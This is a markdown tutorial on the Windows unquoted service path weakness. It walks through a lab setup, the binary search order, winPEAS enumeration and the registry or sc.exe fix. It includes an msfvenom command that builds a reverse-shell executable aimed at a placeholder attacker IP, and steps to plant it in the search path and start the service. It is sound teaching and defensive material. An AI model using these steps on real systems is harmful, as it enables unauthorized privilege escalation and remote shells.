

## Unquoted Service Path

When a windows service binary path contains `whitespaces` but no proper `quotation marks`are used, the Windows operating system will search the service binary using a series of rules, which progressively explore the file system. 

Consider the `SimpleService`

```cmd
C:\Users\Quickemu\Downloads>sc.exe qc SimpleService
[SC] QueryServiceConfig SUCCESS

 SERVICE_NAME: SimpleService
           TYPE               : 10  WIN32_OWN_PROCESS
           START_TYPE         : 3   DEMAND_START
           ERROR_CONTROL      : 1   NORMAL
           BINARY_PATH_NAME   : C:\Users\Quickemu\Downloads\simpleService.exe
           LOAD_ORDER_GROUP   :
           TAG                : 0
           DISPLAY_NAME       : SimpleService
           DEPENDENCIES       :
           SERVICE_START_NAME : LocalSystem
```

Let's create a directory containing whitespaces and let's change the binary path to include such directory.

```cmd
mkdir "Example Directory"
```

```cmd
cd '.\Example Directory\'
```

```cmd
mkdir "Another Directory"
```

```cmd
cd '.\Another Directory\'
```

```cmd
move ..\..\simpleService.exe
```

```cmd
sc.exe config SimpleService binpath="C:\Users\Quickemu\Downloads\Example Directory\Another Directory\simpleService.exe"
```

Query the service to see the new path

```cmd
sc.exe qc SimpleService
```

Let us then start the service

```cmd
sc.exe stop SimpleService
```

```cmd
sc.exe start SimpleService
```

When the service starts, the OS will not directly execute the service binary `simpleService.exe`. Rather, Windows will first try to execute the following binaries in order.
```cmd
C:\Users\Quickemu\Downloads\Example.exe
C:\Users\Quickemu\Downloads\Example Directory\Another.exe
C:\Users\Quickemu\Downloads\Example Directory\Another Directory\simpleService.exe
```

This opens up the possibility for an attacker to introduce a malicious binary in one of the paths that Windows searches for. If the attack is able to write in one of those directory an arbitrary executable, then the attacker can hijack the execution flow.

Generate malicious `.exe` with MSFVenom:
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER-IP> LPORT=1337 -f exe -o malicious.exe
```

Move it to vulnerable path:
```cmd
move malicious.exe "\Downloads\Example.exe"
```

Copy file 
```cmd
copy malicious.exe Example.exe
```

Original directory path:
```cmd
C:\Users\Quickemu\Downloads\Example Directory\Another Directory\simpleService.exe
```

Where is Windows looking?



Start service to receive the shell
```cmd
sc.exe start SimpleService
```

## More Examples

Let's see more examples:

- `C:\Program Files (x86)\Company\Company App\App.exe`
```cmd
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Company\Company.exe
C:\Program Files (x86)\Company\Company App\App.exe
```

- `C:\Program\Cool Company\Cool Binary.exe`
```cmd
C:\Program\Cool.exe
C:\Program\Cool Company\Cool.exe
C:\Program\Cool Company\Cool Binary.exe
```

## Enumeration

To enumerate `unquoted service paths` you can use `winPEAS` as follows:

```cmd
.\winPEAS.exe quiet servicesinfo
```

Notice specifically the text `No quotes and Space detected` in the output.

```cmd
═════════════════════════╣ Services Information╠═════════════════════

═════╣ Interesting Services -non Microsoft-
Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths

SimpleService(SimpleService)[C:\Users\Quickemu\Downloads\Example Directory Test\Another\simpleService.exe] - Manual - Stopped - No quotes and Space detected

File Permissions: Quickemu [AllAccess]

Possible DLL Hijacking in binary folder: C:\Users\Quickemu\Downloads\Example Directory Test\Another (Quickemu [AllAccess])
```

## Fix

To fix this vulnerability you need to open the registry with `RegEdit` and move into the following entry.

```cmd
HKEY_LOCAL_MACHINE -> SYSTEM
                   -> CurrentControlSet
                   -> Services
                   -> SimpleService
```

You then click on ImagePath and add the quotes.
```cmd
"C:\Users\Quickemu\Downloads\Example Directory\Another\simpleService.exe\"
```

You can also add the quotes directly from the `sc.exe` command, just make sure to escape the quotes.
```cmd
sc.exe config SimpleService binpath="\"C:\Users\Quickemu\Downloads\Example Directory\Another\simpleService.exe\""
```

```cmd
sc.exe config SimpleService binpath="\"C:\Users\Quickemu\Downloads\Example Directory\Another Directory\simpleService.exe\""
```

---
## References

Fixing Unquoted Search Paths Using Powershell: https://www.itsecguy.com/fixing_unquoted/

Windows Privilege Escalation: Unquoted Service Path: https://www.hackingarticles.in/windows-privilege-escalation-unquoted-service-path/

